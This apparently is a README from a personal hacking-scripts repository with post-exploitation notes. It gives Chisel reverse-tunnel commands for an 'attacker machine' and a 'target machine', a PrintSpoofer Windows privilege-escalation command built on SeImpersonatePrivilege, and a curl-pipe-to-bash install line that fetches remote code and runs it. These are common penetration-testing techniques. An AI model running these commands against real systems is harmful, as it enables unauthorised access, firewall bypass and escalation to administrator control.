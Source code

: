 # Hack_Scripts

The Scripts for Hacking and general ,
Includes python2  and Java
  - Java
  - Python
  - Php

# CHISEL

Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go (golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network.

See the latest release or download and install it now with curl https://i.jpillora.com/chisel! | bash

### Usage

$ chisel --help
  Usage: chisel [command] [--help]
  
  Version: X.Y.Z
  
  Commands:
  - server - runs chisel in server mode.
  - client - runs chisel in client mode.
    
  Read more:
  https://github.com/jpillora/chisel
    
`chisel server -p 9000 --reverse -v`   >> Run in Attacker Machine  
`chisel client <attacker ip:port{differnt port}> R:<attacker ip:port{different port1}>:<localhost:port{running port, need to be forwarded}>`   >> Run in Target Machine
 

# PrinterSpoofer

https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/  

Windows privilege escalation, To achive this check for **Privilages Information** by 
`whoami /priv'  

### PRIVILEGES INFORMATION

| Privilege Name             |   Description                            |   State     |  
|----------------------------|------------------------------------------|-------------|  
|SeAssignPrimaryTokenPrivilege| Replace a process level token            | Disabled   |
|SeIncreaseQuotaPrivilege     | Adjust memory quotas for a process       | Disabled   |
|SeAuditPrivilege             | Generate security audits                 | Disabled   |
|SeChangeNotifyPrivilege      | Bypass traverse checking                 | Enabled    |
|SeImpersonatePrivilege     |   Impersonate a client after authentication| Enabled|  
|SeCreateGlobalPrivilege      | Create global objects                    | Enabled    |
|SeIncreaseWorkingSetPrivilege| Increase a process working set           | Disabled   | 
  
***SeImpersonatePrivilege*** need to be **Enabled**  

### Command for escaltion
`PrinterSpoofer.exe -i -c cmd`
